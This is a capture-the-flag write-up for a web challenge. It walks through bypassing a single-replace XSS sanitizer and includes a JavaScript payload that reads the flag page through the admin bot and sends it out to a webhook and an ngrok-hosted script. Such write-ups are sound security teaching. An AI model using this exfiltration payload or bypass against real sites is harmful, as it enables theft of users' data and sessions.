 # angstrom 2022 - Xtra Salty Sardines

* **Category:** web
* **Points:** 70

## Challenge

>Clam was intensely brainstorming new challenge ideas, when his stomach growled! He opened his favorite tin of salty sardines, took a bite out of them, and then got a revolutionary new challenge idea. What if he wrote a site with an extremely suggestive acronym?

## Solution
```python
vuln = "Xtra Salty Sardines"
print(f"Vuln: {vuln[0]}{vuln[5]}{vuln[11]}")
#Vuln: XSS
```
#### XSS Bypass
![image](https://user-images.githubusercontent.com/78451563/166805274-bb37ee0d-1452-474e-a256-719426e7e6da.png)
![image](https://user-images.githubusercontent.com/78451563/166806002-020feebe-1b22-4228-85bb-4209f71a4433.png)</br>
♡ Though it uses the replace function to sanatize the input, it will only act on the first character presented.
♡ Therefore, we can enter our payload twice to bypass.</br>
#### Ngrok + Webhook
```javascript
//payload.js
var request = new XMLHttpRequest();
request.onload = sendBack;
request.open('GET','https://xtra-salty-sardines.web.actf.co/flag');
request.send();

function sendBack(){
        location = '<WEB HOOK URL>/result?result=' + btoa(this.responseText);
}
```
♡ We can host this payload using ngrok `ngrok http 80`</br>
♡ And in the script replace the `sendBack` location using a webhook from [webook.site](https://webhook.site)</br>
#### Payload
![image](https://user-images.githubusercontent.com/78451563/166808856-29dd8652-c9a4-4a73-b082-afd198f9f65a.png)</br>
![image](https://user-images.githubusercontent.com/78451563/166809657-af371a6d-1017-4bcf-b21f-532eb386e121.png)</br>
`<h1>"r4nd0m"</h1><script src="https://a479-80-3-68-53.ngrok.io/payload.js"></script>`</br>
♡ This bypassing payload source is to the `payload.js` hosted on our `ngrok` server</br>
♡ When sent our payload to `https://xtra-salty-sardines.web.actf.co/` we should create a directory with our payload inside e.g `/sardines/abcdefg`</br>
### Exploitation
![image](https://user-images.githubusercontent.com/78451563/166809982-08d011ad-0833-43c1-844d-a3570807b972.png)
![image](https://user-images.githubusercontent.com/78451563/166811614-60adf1ca-0e49-4f45-aed5-4508e32b87b3.png)
♡ Visit [Admin bot](https://admin-bot.actf.co/xtra-salty-sardines)</br>
♡ Send the link which has the XSS payload on</br>
♡ Visited webhooks and base64 decode the results
```
Flag: actf{those_sardines_are_yummy_yummy_in_my_tummy}
```
